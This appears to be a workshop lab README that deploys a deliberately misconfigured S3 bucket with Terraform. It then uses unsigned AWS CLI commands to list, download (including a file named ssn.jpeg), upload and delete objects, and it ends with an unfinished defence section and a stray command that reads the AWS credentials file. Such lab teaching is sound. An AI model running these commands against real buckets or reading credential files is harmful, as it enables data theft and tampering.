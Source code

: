 # S3 Misconfiguration

* Clone the repository 

```bash
    git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 1: Change Directory

```bash
cd /s3misconfiguration
```
* Step : Initialise terraform 

```bash
   terraform init
```

* Step : Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 4: Export bucket name
```bash
export s3bucket=<bucketname> 
```

* Step 5: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket
```

* Step 6: Now lets perform all the possible attacks

* Step 7: Lets first download the fishy files 

```bash
 aws s3 cp s3://$s3bucket/ssn.jpeg /home/we45-abhi/seasides/

```

* Step 8: Let's upload a new file 

```bash
 aws s3 cp main.tf s3://$s3bucket --no-sign-request --region us-west-2
```

* Step 9: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/output.tf --no-sign-request --region us-west-2
```


* By this we can figure out that all sensitive data has been compromised and due to misconfiguration of bucket we have a complete control of the bucket


Now how to put a control on it or Defend 




cat ~/.aws/credentials
